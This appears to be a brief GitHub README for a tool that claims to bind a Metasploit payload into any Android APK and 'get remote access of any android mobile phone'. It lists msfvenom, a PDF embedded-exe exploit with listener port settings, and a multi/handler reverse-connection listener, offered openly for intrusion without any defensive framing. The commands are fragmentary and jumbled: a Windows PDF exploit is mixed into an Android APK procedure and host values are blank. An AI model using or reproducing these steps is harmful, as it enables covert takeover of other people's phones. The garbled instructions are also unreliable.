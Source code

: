 
# Metasploit-Payload-apk-binder-

bind your payload in any apk
through metasploit 
msf venom
msfconsole
use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs  set lhost  set lport 4040  set filename mypdf.pdf  exploit  $ mv -v .......... /sdcard  msfconsole   use exploit/multi/handler  
set lhost  
set lport 
exploit
get remote access of any android mobile phone
you can get this repo through kali linux or directly install through github
